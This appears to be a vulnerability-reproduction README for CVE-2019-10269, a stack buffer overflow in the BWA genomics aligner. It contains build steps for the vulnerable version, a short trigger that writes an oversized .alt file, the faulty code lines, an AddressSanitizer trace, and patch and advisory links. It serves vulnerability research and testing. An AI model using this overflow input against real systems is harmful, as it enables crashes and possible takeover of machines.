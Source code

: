 # CVE-2019-10269 

## Experiment Environment

Ubuntu 20.04 LTS

## INSTALL & Configuration

```
git clone https://github.com/lh3/bwa.git
cd bwa
git fetch origin pull/232/head:alt-bufferoverflow-patch
git checkout alt-bufferoverflow-patch
git checkout HEAD^
make
```

## Problems in Installation & Configuration

## PoCs

[Taking local control of genomics machines through BWA](https://coreymhudson.github.io/bwa_vulnerabilties/)

## How to trigger vulnerability

```
# In directory CVE-2019-10269
./bwa/bwa index sample.fa
python3 -c "print('A' * 5200)" > sample.fa.alt
./bwa/bwa mem sample.fa whatever
```

## Vulnerability Details & Patch

### Root Cause

```
bntseq.c:180
	char str[1024];

bntseq.c:190
	while ((c = fgetc(fp)) != EOF) {
```

### Stack Trace

```
==276574==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x7ffeb401dc20 at pc 0x5624c486c988 bp 0x7ffeb401c530 sp 0x7ffeb401c520
WRITE of size 1 at 0x7ffeb401dc20 thread T0
    #0 0x5624c486c987 in bns_restore /home/sophie/source_code/LinuxFlaw/CVE-2019-10269/bwa/bntseq.c:200
    #1 0x5624c4872c61 in bwa_idx_load_from_disk /home/sophie/source_code/LinuxFlaw/CVE-2019-10269/bwa/bwa.c:275
    #2 0x5624c485295c in main_mem /home/sophie/source_code/LinuxFlaw/CVE-2019-10269/bwa/fastmap.c:330
    #3 0x5624c48084d8 in main /home/sophie/source_code/LinuxFlaw/CVE-2019-10269/bwa/main.c:85
    #4 0x7f3d42b040b2 in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x270b2)
    #5 0x5624c4808abd in _start (/home/sophie/source_code/LinuxFlaw/CVE-2019-10269/bwa/bwa+0x17abd)
```

### Patch

[Buffer overflow while storing .alt file using bwa mem](https://github.com/lh3/bwa/pull/232)

## References

[USN-4087-1: BWA vulnerability](https://ubuntu.com/security/notices/USN-4087-1)
